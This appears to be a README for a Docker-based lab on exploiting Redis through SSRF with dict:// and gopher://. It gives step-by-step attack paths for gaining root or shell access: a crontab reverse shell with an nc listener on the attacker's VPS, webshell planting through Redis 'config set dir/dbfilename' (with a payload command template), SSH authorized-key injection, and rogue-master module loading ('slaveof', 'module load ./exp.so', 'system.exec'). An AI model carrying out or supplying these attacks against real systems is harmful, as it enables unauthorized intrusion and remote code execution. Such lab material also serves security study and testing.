 # Environment
Create the environment by start the docker images. The comand is:

```
cd project/redis
docker-compose up -d
``` 

And then you need to start the service `httpd` and `crond` manully. 

```
docker exec -it `container_id` /bin/bash
>systemctl start httpd
>systemctl start crond
```

# Exploiting

### 0x01 Crontab
It can be exploited by `dict://` or `gopher://`.

**Prerequisites:**

* The redis should start by root
* It must be `CentOS` system.

**Steps:**

1. Put the `302.php` and `shell.php` in your VPS.

2. modify the exp.py to adapt yours. It references []() 

3. Run `python3 exp_dict.py`.

4. Listening the port on your VPS `nc -lvp 2333`.

### 0x02 Webshell

It can be exploited by 	`gopher://`.

**Steps:**

1. Modify the exp_resp.py and put the cmds that you need in the `cmd[]` in the `exp_resp.py`. Such like 

```
cmd = [	"flushall",
		"set 1 {}".format(shell.replace(" ","${IFS}")),
		"config set dir {}".format(path),
		"config set dbfilename {}".format(filename),
		"save"
		]
```

2. Run `python3 exp_trans.py` to obtain the representation of gopher payload.

3. Put the payload in the vulnerable point.

4. Access the webshell.

### 0x03 SSH Key

**Prerequisites:**

* The redis should start by root or other user that known.
* The ssh should supprt `PubkeyAuthentication`. like that:


```
#/etc/ssh/sshd_config

PasswordAuthentication no


RSAAuthentication yes
PubkeyAuthentication yes

AuthorizedKeysFile .ssh/authorized_keys
```

**Steps:**

1. Generate the key pair of yours.

```
cd /root/.ssh

ssh-keygen -t rsa
```

2. Put the key in the `exp_resp.py` and replacing the path and dbfilename. 

![](./img/1.png)

3. Put the payload in the vulnerable point.

4. Login in with `ssh -p port user@ip -i path_of_private_key`

![](./img/2.png)


### 0x04 Slave

After Redis 4.x, it adds a module function, it can be utilized to getshell.

**Prerequisites:**

* Redis <= 5.0.5
* Change the dockerfile of redis from `FROM redis:3.2` to `From redis:5.0` 

**Steps:**

If you can access the redis directily, you can run the `exp_slave.py`. Then you can interact with shell. like this:

![](./img/3.png)

If you access the redis by SSRF in intranet, you can run `Redis_Rogue_Server.py` and then send the command with `gopher://` or `dict://`.

```
slaveof ip port
config set dbfilename exp.so
···(python3 Redis_Rogue_Server.py)
module load ./exp.so
system.exec command
```



# Thanks

* [SSRF漏洞分析与利用](http://www.4o4notfound.org/index.php/archives/33/)
* [https://xz.aliyun.com/t/5665#toc-14](https://xz.aliyun.com/t/5665#toc-14)
* Redis-Rogue-Server [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)










